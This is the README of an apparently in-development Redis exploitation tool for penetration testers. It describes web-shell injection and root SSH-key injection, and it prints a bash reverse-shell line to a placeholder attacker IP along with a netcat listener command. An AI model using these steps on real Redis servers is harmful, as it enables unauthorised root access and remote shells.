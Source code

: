 <a href="https://www.buymeacoffee.com/0xDTC"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a knowledge&emoji=📖&slug=0xDTC&button_colour=FF5F5F&font_colour=ffffff&font_family=Comic&outline_colour=000000&coffee_colour=FFDD00" /></a>

> [! Notice] Project is under development not fully working.

# Redis Exploit Automation Script

This script is designed for penetration testers and ethical hackers to exploit Redis misconfigurations. It automates tasks such as injecting custom web shells, dumping the Redis database, and injecting SSH keys for privilege escalation.

---

## Features
1. **Redis Connectivity Check**:
   - Verifies if the target Redis server is reachable.
   - Supports authentication if required.

2. **Custom Web Shell Injection**:
   - Prompts the user to input a custom shell command (e.g., a reverse shell payload).
   - Injects the command into a writable directory on the target.

3. **Database Dump**:
   - Dumps the Redis database to disk for offline analysis.

4. **SSH Key Injection**:
   - Injects an SSH public key for root access if the target allows configuration changes.

5. **Netcat Listener Validation**:
   - Ensures a listener (`nc -lvnp <port>`) is running before executing commands requiring it.

---

## Requirements
- **Dependencies**:
  - `redis-cli`: To interact with the Redis server.
  - `curl`: To fetch reverse shell payloads if needed.
  - `netstat`: To check for active Netcat listeners.

Install dependencies on Debian/Ubuntu:
```bash
sudo apt update
sudo apt install redis-tools curl net-tools
```

---

## Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/redis-exploit-script.git
   cd redis-exploit-script
   ```

2. Make the script executable:
   ```bash
   chmod +x redis_exploit.sh
   ```

3. Run the script:
   ```bash
   ./redis_exploit.sh <host> <port> [password]
   ```
   - Replace `<host>` with the Redis server's IP.
   - Replace `<port>` with the Redis server's port (default: 6379).
   - If authentication is required, provide the `password`. Otherwise, omit it.

---

## Menu Options
1. **Inject a Custom Web Shell**:
   - Prompts the user to input a shell command.
   - Example: A reverse shell payload such as:
     ```bash
     bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1
     ```
   - Injects the payload into a writable web directory on the target.
   - Access the web shell via: `http://<host>/customshell.php`.

2. **Dump the Database**:
   - Executes `SAVE` to dump the database to disk.
   - Provides instructions to fetch the `dump.rdb` file for offline analysis.

3. **Inject an SSH Key**:
   - Prompts for your SSH public key.
   - Injects the key into `/root/.ssh/authorized_keys`.
   - Allows SSH access to the target as `root`.

---

## Examples
- **Run Script Without Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379
  ```

- **Run Script with Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379 mypassword
  ```

---

## Notes
- Ensure you have a Netcat listener running for reverse shells:
  ```bash
  nc -lvnp <your-port>
  ```

- The script will wait until the listener is active before proceeding with shell injection.

---

## Disclaimer
This script is intended for legal and ethical use only. Ensure you have explicit permission before testing or exploiting any Redis server. Misuse of this script may lead to legal consequences.

---

## Contribution
Feel free to open issues or submit pull requests to improve the script!
